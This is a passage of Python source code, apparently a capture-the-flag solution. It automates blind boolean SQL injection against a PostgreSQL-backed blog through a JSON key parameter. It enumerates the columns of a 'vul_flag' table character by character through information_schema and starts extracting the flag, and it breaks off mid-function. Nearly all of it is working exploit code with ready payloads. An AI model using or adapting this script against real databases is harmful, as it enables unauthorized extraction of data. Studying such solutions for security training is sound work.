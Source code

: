 ```python
    vul_flag_column_count = 0
    table_count_get = False
    while table_count_get is False:
        payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when%20(SELECT%20
        count(*)%20as%20cnt%20FROM%20information_schema.columns%20WHERE%20table_name=%27vul_flag%27)%20<=%20{vul_flag_column_count}
        %20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""

        #time.sleep(1)
        vul_flag_column_count = vul_flag_column_count + 1
        url = f"{server}{id}{content_param}{payload}"
        resp = requests.get(url=url, headers=headers)
        if exists_check(resp.content):
            vul_flag_column_count = vul_flag_column_count - 1
            table_count_get = True

    column_name_list = []
    for i in range(0,vul_flag_column_count):
        # table 명 길이 조회
        for table_name_size in range(0,50):
            payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20
                        AND%20case%20when%20(select%20length((SELECT%20(column_name)%20as%20cnt
                        %20FROM%20information_schema.columns%20WHERE%20table_name=%27vul_flag
                        %27%20offset%20{i}%20limit%201)))%20<=%20{table_name_size}%20then%20true
                        %20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20
                        offset%201%20--"""
            url = f"{server}{id}{content_param}{payload}"
            resp = requests.get(url=url, headers=headers)
            if exists_check(resp.content):
                break

        #vul_flag table column 이름 조회
        column_name = ""
        for j in range(1,table_name_size+1):
            for ascii in range(0,128):
                payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20
                AND%20case%20when%20(select%20ascii(substring((SELECT%20(column_name)%20as%20cnt%20
                FROM%20information_schema.columns%20WHERE%20table_name=%27vul_flag%27%20offset%20{i}%20
                limit%201),%20{j},1)))%20<=%20{ascii}%20then%20true%20else%20false%20end%20%20GROUP%20BY%20"
                vul_blog"."title"%20LIMIT%201%20offset%201%20--"""
                url = f"{server}{id}{content_param}{payload}"
                resp = requests.get(url=url, headers=headers)
                if exists_check(resp.content):
                    column_name = column_name+str(chr(ascii))
                    break
        column_name_list.append(column_name)

    print(column_name_list)

def get_flag_from_flag_table():
    for flag_length in range(0,50):
        payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20
        when%20(SELECT%20length(string_agg(vul_flag.flag,%20%27%27))%20FROM%20vul_flag)%20<=%20{flag_length}
        %20then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""
        url = f"{server}{id}{content_param}{payload}"
        resp = requests.get(url=url, headers=headers)
```